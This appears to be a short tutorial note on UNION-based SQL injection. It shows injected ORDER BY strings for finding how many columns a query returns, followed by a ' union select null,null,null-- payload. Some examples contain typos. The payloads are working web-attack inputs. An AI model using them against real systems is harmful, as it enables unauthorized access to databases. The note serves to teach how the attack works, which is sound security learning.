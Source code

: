 # Union Attack and determine the no.of columns

**UNION** keyword allow us to execute one or more additional **SELECT** query

## example query

```sql
select a,b from user union select c,d from user1
```

this will return the value of user a and b from the user , so the c and d value will be returned by user1

### Requriments for UNION based attack

* Number of columns returned from the original query
* Suitable data type to hold the results from the injected query
**ORDER BY** is used to determine number of columns by incrementing the specified column index until error occurs , most likely internal server error.

example query

```sql
' order by 1--
' order by 2--
' order by 3--
```

end goal : to determine number of columns returned by the query

first lets determine the number of columns it has

```sql
' order 1--
' order 2--
' order 3--
' order 4--  //internal server error
```

so here we have three colummns , now lets make our payload to attack it

payload

```sql
' union select null,null,null--
```

the reason of using NULL as it can be converted into any commonly used data type